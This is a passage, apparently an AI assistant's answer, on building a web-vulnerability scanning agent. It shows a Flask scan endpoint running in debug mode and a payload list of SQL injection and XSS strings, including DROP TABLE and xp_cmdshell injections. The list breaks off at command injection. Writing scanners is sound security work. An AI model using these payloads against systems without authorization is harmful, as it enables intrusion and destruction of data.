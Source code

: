 
### **Step 7: Deploy as a Web Application**
Use Flask or FastAPI to create a simple UI for the AI agent.

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/scan', methods=['POST'])
def scan():
    data = request.json
    base_url = data.get("base_url")
    urls = crawl_website(base_url)
    results = execute_tests(base_url, urls)
    report = generate_report(results)
    return jsonify(report)

if __name__ == '__main__':
    app.run(debug=True)
```

---

### **Step 8: Optimization and Scaling**
- **Concurrency**: Use `asyncio` or `multiprocessing` for faster scanning.
- **Cloud Deployment**: Deploy the agent on cloud platforms like AWS, GCP, or Azure.

---

This implementation creates a foundational deliberative AI agent for web application bug hunting. Would you like to extend or focus on any specific part, such as advanced AI integration or cloud deployment?
Here’s the updated `detect_vulnerabilities()` function with about 50 test cases spanning different types of vulnerabilities, including **SQL Injection**, **XSS**, **Command Injection**, **CSRF**, **File Inclusion**, and **Directory Traversal**. 

```python
def detect_vulnerabilities(url):
    test_cases = {
        "sql_injection": [
            "' OR '1'='1", 
            "' OR 1=1 --", 
            "'; DROP TABLE users; --", 
            "' AND 1=0 --", 
            "' UNION SELECT NULL, NULL --", 
            "' UNION SELECT username, password FROM users --", 
            "' OR 'a'='a", 
            "' OR 1=1#", 
            "\" OR \"1\"=\"1", 
            "'; EXEC xp_cmdshell('dir'); --"
        ],
        "xss": [
            '<script>alert("XSS")</script>', 
            '"><script>alert("XSS")</script>', 
            '"><svg/onload=alert(1)>', 
            '"><img src=x onerror=alert(1)>', 
            "<body onload=alert('XSS')>", 
            "<iframe src=javascript:alert('XSS')>", 
            '"><input type="text" onfocus="alert(1)">', 
            "'><button onclick=alert(1)>Click</button>", 
            "javascript:alert('XSS');", 
            '<svg><desc><![CDATA[</desc><script>alert("XSS")</script>]]></svg>'
        ],
        "command_injection": [
```
